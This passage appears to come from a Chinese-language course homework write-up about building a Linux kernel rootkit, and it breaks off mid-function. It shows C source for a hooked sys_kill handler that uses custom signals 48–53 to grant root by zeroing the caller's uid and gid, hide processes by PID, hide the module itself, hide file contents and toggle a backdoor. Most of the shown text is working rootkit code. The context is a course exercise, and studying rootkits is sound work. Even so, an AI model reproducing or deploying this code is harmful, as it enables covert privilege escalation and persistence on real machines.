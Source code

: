 	![syscallhook.png](https://github.com/PoSS-G3/PoSS-Homework-2/blob/master/screenshot/hook.png)
	
3. 自定义的new_sys_kill函数的实现。
	
	新定义了六个未用的信号48-53。这些用来实现rootkit想要的功能，如48实现提升权限，49实现通过pid隐藏进程等等。
	
	```c
	#define SIGROOT 48
	#define SIGHIDEPROC 49
	#define SIGHIDEHYMMNOS 50
	#define SIGHIDECONTENT 51
	#define SIGBACKDOOR 52
	#define SIGKOMON 53
	```
	
	```c
	asmlinkage int new_sys_kill(pid_t pid, int sig)
	{
	    switch (sig)
	    {
	    case SIGHIDEHYMMNOS:
	        if (hidden)
	            show();
	        else
	            hide();
	        break;
	    case SIGHIDEPROC:
	        if (is_pid_hidden((long)pid))
	            make_pid_show((long)pid);
	        else
	            make_pid_hidden((long)pid);
	        break;
	    case SIGHIDECONTENT:
	        if (hide_file_content)
	            hide_file_content = 0;
	        else
	            hide_file_content = 1;
	        break;
	    case SIGROOT:
	        #if LINUX_VERSION_CODE < KERNEL_VERSION(2, 6, 29)
	                current->uid = 0;
	                current->suid = 0;
	                current->euid = 0;
	                current->gid = 0;
	                current->egid = 0;